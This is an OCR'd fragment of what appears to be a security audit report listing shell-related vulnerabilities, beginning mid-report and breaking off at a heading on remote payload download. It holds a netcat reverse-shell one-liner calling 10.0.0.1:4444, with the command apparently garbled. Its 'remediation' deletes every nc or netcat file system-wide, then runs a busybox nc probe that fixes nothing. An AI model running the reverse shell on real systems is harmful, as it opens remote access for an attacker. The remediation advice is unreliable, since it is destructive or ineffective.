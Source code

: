       ```bash                                                                                                                                                                                                                          
      find /home -name id_rsa -exec chmod 600 {} + &&                                                                                                                                                                                  
      chattr +i /etc/shadow                                                                                                                                                                                                            
      ```                                                                                                                                                                                                                              
      **Sources**:                                                                                                                                                                                                                     
      OWASP Top Ten - A3:2017 | SSH Key Management Checklist | CyberArk DevOps Guide                                                                                                                                                   
                                                                                                                                                                                                                                       
      ## 5. Netcat Callback Vulnerability                                                                                                                                                                                              
      **Vulnerability**: Execution capability enables nc shell callbacks                                                                                                                                                               
      **Exploitation Example**:                                                                                                                                                                                                        
      ```bash                                                                                                                                                                                                                          
      mkfifo /tmp/f; sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f                                                                                                                                                                            
      ```                                                                                                                                                                                                                              
      **Impact**: Facilitates reverse command shell establishment                                                                                                                                                                      
      **Criticality**: High (CVSS 8.8)                                                                                                                                                                                                 
      **Remediation**:                                                                                                                                                                                                                 
      ```bash                                                                                                                                                                                                                          
      find / -name 'nc' -o -name 'netcat' | xargs rm -f                                                                                                                                                                                
      /bin/busybox nc -zvw 1 127.0.0.1 4444 >> /dev/null                                                                                                                                                                               
      ```                                                                                                                                                                                                                              
      **Sources**:                                                                                                                                                                                                                     
      Network Reconnaissance with Netcat | Malware Reverse Shells Explained | MITRE ATT&CK T1071                                                                                                                                       
                                                                                                                                                                                                                                       
      ## 6. Runtime File Download/Execution                                                                                                                                                                                            
      **Vulnerability**: Function accessible URLs enable remote payload streaming                                                                                                                                                      
